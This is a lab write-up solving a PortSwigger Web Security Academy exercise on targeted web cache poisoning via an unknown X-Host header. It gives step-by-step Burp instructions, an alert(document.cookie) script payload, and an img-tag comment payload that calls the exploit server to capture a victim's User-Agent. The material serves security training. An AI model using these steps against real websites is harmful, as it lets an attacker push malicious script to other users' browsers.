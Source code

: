 # Targeted web cache poisoning using an unknown header

## Description

[This lab](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-targeted-using-an-unknown-header) is vulnerable to web cache poisoning. A victim user will view any comments that you post.

## Reproduction

1. With Burp running, load the website's home page.
2. In Burp, go to **Proxy -> HTTP history** and study the requests and responses generated. Find the `GET` request for the home page.
3. With the **Param Miner** extension enabled, right-click on the request and select **Guess headers**. After a while, **Param Miner** will report that there is a secret input in the form of the `X-Host` header.
4. Send the `GET` request to Burp Repeater and add a cache-buster query parameter, such as `?cb=1234`.
5. Add the `X-Host` header with an arbitrary hostname, such as `example.com`. The value of this header is used to dynamically generate an absolute URL for importing the JavaScript file stored at `/resources/js/tracking.js`.
6. Go to the exploit server and change the file name to match the path used by the vulnerable response:

```text
/resources/js/tracking.js
```

7. In the body, enter the payload `alert(document.cookie)` and store the exploit.
8. Go back to the request in Burp Repeater and set the `X-Host` header with the exploit server url:

```text
X-Host: your-exploit-server-id.web-security-academy.net
```

9. Send the request until you see the exploit server URL reflected in the response and `X-Cache: hit` in the headers.
10. To simulate the victim, load the URL in your browser and make sure that the `alert()` fires.
11. The `Vary` header is used to specify that the `User-Agent` is part of the cache key. To target the victim, you need to find out their `User-Agent`.
12. On the website, notice that the comment feature allows certain HTML tags. Post a comment containing a suitable payload to cause the victim's browser to interact with your exploit server, for example:

```text
<img src="https://exploit-0a21009d04709c47c10d2f60017e00dc.exploit-server.net/foo" />
```

13. Go to the blog page and double-check that your comment was successfully posted.
14. Go to the exploit server and click the button to open the **Access log**. Refresh the page every few seconds until you see requests made by a different user. This is the victim. Copy their `User-Agent` from the log.
15. Go back to your malicious request in Burp Repeater and paste the victim's `User-Agent` into the corresponding header. Remove the cache buster.
16. Keep sending the request until you see your exploit server URL reflected in the response and `X-Cache: hit` in the headers.
17. Replay the request to keep the cache poisoned until the victim visits the site and the lab is solved.

## PoC

| [![Screencast PoC Targeted web cache poisoning using an unknown header](http://img.youtube.com/vi/qqUCWvSlh3I/0.jpg)](http://www.youtube.com/watch?v=qqUCWvSlh3I "Targeted web cache poisoning using an unknown header") |
|:--:|
| [Screencast PoC on Youtube](http://www.youtube.com/watch?v=qqUCWvSlh3I) |

## Exploitability

An attacker will need to poison the cache with a response that executes `alert(document.cookie)` in the visitor's browser; and also needs to make sure that the response is served to the specific subset of users to which the intended victim belongs. 
